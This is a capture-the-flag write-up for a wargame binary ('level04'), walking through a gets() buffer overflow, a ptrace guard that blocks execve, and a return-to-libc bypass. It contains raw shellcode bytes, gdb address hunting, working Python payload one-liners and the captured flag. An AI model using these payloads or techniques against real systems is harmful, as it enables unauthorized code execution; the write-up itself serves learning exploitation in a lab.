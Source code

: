 # level 4 Buffer Overflow Attack, Return-to-libc

## Overview
The binary has `gets` function which has vulnerability of `buffer overflow`. But there is also tracking system using `ptrace`, prevent running execve function in child process. Instead, we can use `return-to-libc` to go into the `libc` and run `system` with `/bin/sh`.

## Steps

### vulnerability with `gets`

address of argument of gets: `%esp+0x20` = `0xffffd630`\
address of return address: `%ebp+0x4` = `0xffffd6cc`\
offset = 156 bytes

We tried to write shellcode in the buffer and access there.
```
python -c '''
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "x"*(156-len(shellcode))
address = "\xff\xff\xd6\x30"[::-1]
print shellcode + padding + address
''' > /tmp/04

(gdb) r <<< $(cat /tmp/04)
Starting program: /home/users/level04/level04 <<< $(cat /tmp/04)
Give me some shellcode, k
no exec() for you
[Inferior 1 (process 2007) exited normally]
```
This doesn't work because the parent is checking if child use `execve` and block it. 
```c
// child
prctl(1, 1);
ptrace(0, 0, 0, 0);
puts("Give me some shellcode, k");
gets(v5);

// parent
do
{
  wait(&v4);
  v6 = v4;
  if ( (v6 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )
  {
    puts("child is exiting...");
    return 0;
  }
  v8 = ptrace(3, v9, 44, 0);
}
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```
- `prctl(1, 1)` sets the process to receive a SIGHUP signal if its parent process dies.
- `ptrace(PTRACE_TRACEME, 0, 0, 0)` declares that the current process should be traced by its parent.

- `v8 = ptrace(3, v9, 44, 0)` with `PTRACE_PEEKUSER` as first argument, reads data from the child process's user area.
- `while ( v8 != 11 )` The number 11 signifies the system call number for `execve`, indicating its role in monitoring whether a child process has executed `execve`.

[Playing with ptrace](https://www.linuxjournal.com/article/6100)\
[ptrace.h](https://sites.uclouvain.be/SystInfo/usr/include/sys/ptrace.h.html)\
[Exploiting Linux systems with ptrace](https://raj3shp.medium.com/exploiting-linux-systems-with-ptrace-637f13a7d9ea)\
[Intercepting and Emulating Linux System Calls with Ptrace](https://nullprogram.com/blog/2018/06/23/)

#### Tip! 
to debug multi-process program
```
(gdb) set follow-fork-mode child
(gdb) set follow-fork-mode parent
```

### return-to-libc

1. `EIP` is overwritten with address of the `system()` function located inside `libc`
2. Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` returns, the vulnerable program jumps the `exit()`, which also lives in the libc, so that the vulnerable program can exit gracefully;
3. Right after the address of `exit()`, there's a pointer to a memory location that contains the string /bin/sh, which is the argument we want to pass to the `system()` function.

```
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
0xf7e2b000 0xf7e2c000     0x1000        0x0
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
0xf7fd0000 0xf7fd4000     0x4000        0x0
0xf7fda000 0xf7fdb000     0x1000        0x0
```
There is `/lib32/libc-2.15.so` from `0xf7e2c000` to `0xf7fcc000`.

```
(gdb) find 0xf7e2c000, 0xf7fcc000, /bin/sh
0xf7f897ec
1 pattern found.
```
-> address of string "/bin/sh" = `0xf7f897ec`
```
objdump -d /lib32/libc-2.15.so | grep system
0003eed0 <__libc_system>:

readelf -s /lib32/libc-2.15.so | grep system
   239: 0011ca50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   615: 0003eed0   141 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1422: 0003eed0   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
-> address of `system` = `0xf7e2c000` + `0003eed0` = `0xf7e6aed0`


[Return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)



## Payload
address of `system` = `0xf7e6aed0`\
address of string, `/bin/sh` = `0xf7f897ec`\
I just keep place for exit with dummy data. haha
```
python -c 'print("x"*156 + "\xf7\xe6\xae\xd0"[::-1] + "xxxx" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/04

cat /tmp/04 - | ./level04
```

## Flag
```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```